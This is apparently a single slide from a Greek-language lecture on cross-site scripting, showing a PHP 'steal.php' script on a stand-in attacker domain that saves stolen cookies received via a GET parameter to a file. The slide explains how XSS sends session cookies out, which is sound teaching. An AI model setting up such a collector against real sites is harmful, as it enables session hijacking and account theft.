

# XSS
Ενώ στο steal.php του kakoslykos.gr έχει:

<?php
	file_put_contents(
		“haha.txt”, $_GET[ ‘cookie’ ]
	);
?>